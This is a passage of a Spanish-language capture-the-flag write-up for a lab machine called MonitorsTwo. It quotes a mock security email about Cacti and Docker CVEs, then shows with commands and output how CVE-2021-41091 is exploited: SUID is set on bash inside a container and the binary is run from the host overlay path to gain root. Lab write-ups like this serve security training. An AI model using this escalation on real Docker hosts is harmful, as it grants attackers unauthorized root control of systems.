 ```javascript
CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```
Debemos antes, encontrar la ruta de los contenedores mediante el comando findmnt.

```javascript
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
```
En el contenedor, como root debemos poner la bash con permisos SUID.

```javascript
root@50bca5e748b0:/# chmod u+s /bin/bash 
chmod u+s /bin/bash
root@50bca5e748b0:/# ls -l /bin/bash 
ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
root@50bca5e748b0:/#
```
Y en la máquina principal ejecutamos la bash del contenedor para convertirnos en root.


```javascript
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ls
bin  boot  dev  entrypoint.sh  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ls -l bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 bin/bash
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
b4######################3204
bash-5.1# 
```
```
